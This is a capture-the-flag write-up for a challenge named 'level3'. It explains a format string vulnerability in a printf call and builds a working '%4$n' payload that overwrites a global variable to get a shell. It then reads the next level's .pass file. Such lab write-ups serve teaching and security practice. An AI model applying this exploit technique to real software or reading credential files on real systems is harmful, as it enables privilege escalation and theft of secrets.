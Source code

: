 # Level 3

## Initial Context

- One file: `level3`

## Solving the Challenge

Running the file without any argument block on an input.
The program act like `cat`.

```bash
$ echo | ./level3

$ echo a | ./level3
a
$ echo hello | ./level3
hello
```

But giving `printf`'s specifiers, it starts to break.

```bash
$ echo '%s' | ./level3
Segmentation fault (core dumped)
```

By looking at the code, we can see that the raw content is passed as the format for a `printf` call.

```c
fgets(buffer, 512, stdin);
printf(buffer);
```

Also looking at the code, there is a condition made with an uninitialized `m` variable.

```c
unsigned m; /* 0x0804988c */

void v()
{
    ...
    if (m == 64 /* 0x40 */) {
        ...
```

We can try an [uncontrolled format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

If given an access to a `printf`'s format, an attacker can dump the stack by **popping some values** of the stack using `%p`, `%x` or `%s`. And can also write to it using `%n`, which set to the next parameter the number of characters written up until now.

We can put the address we want to override which is `0x0804988c` (or `8c 98 04 08` in LE), and pop values until we can find it back:

```bash
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p"' | ./level3
?? 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520
#                              ^ 4th place, what we want
```

By [exploiting a GCC extension](https://stackoverflow.com/a/19327442/7292958), we can force `printf` to use the 4th value directly:

```python
# address
"\x8c\x98\x04\x08"

# padding to produce 64 characters
+ "A" * 60

# write using %n, at the forth argument using $4
+ "%4$n"
```

Let's save it in a file and send it to the vulnerable program:

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
cat /tmp/exploit3 - | ./level3
whoami
level4
cat /home/user/level4/.pass
<flag>
```

## Inspirations

- https://stackoverflow.com/questions/46776664/exploiting-printf-vulnerability-in-c
- https://stackoverflow.com/questions/19327441/gcc-dollar-sign-in-printf-format-string/19327442#19327442
